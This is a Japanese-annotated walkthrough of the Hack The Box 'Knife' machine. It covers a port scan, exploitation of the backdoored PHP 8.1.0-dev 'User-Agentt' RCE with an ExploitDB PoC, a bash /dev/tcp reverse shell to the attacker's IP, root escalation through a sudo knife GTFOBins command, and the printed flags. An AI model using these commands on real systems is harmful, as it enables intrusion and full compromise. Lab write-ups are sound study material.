 https://app.hackthebox.com/machines/Knife

## STEP 1
```sh
└─$ rustscan -a 10.129.207.242 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.207.242:22
Open 10.129.207.242:80
10.129.207.242 -> [22,80]
```


## STEP 2  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Knife_01.png">

curlでヘッダを確認、PHPのバージョンを確認できた
```sh
└─$ curl -I http://10.129.207.242 
HTTP/1.1 200 OK
Date: Wed, 25 Jun 2025 04:22:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
今回のphpのバージョンは、RCEが動作するバックドアが仕込まれていたバージョンでありPoCも発見  
```sh
└─$ searchsploit -m 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/49933.py
```
PoCでRCE実行
```sh
└─$ python3.13 49933.py
Enter the full host url:
http://10.129.207.242/ 

Interactive shell is opened on http://10.129.207.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"
^CExiting...
```
リバースシェル取得、ユーザフラグゲット！
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.129.207.242] 51632
bash: cannot set terminal process group (911): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)

james@knife:~$ cat /home/james/user.txt
cat /home/james/user.txt
bba83508c99c3412f30c9113955ebe23
```


## STEP 3
`/usr/bin/knife`がパスワードなしでroot権限実行できる
```sh
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
[gtfobins](https://gtfobins.github.io/gtfobins/knife/)で権限昇格のコマンドを確認、ルートフラグゲット
```sh
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'

id
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
c5d240400c720f165d8b28ebcae5b6bd
```
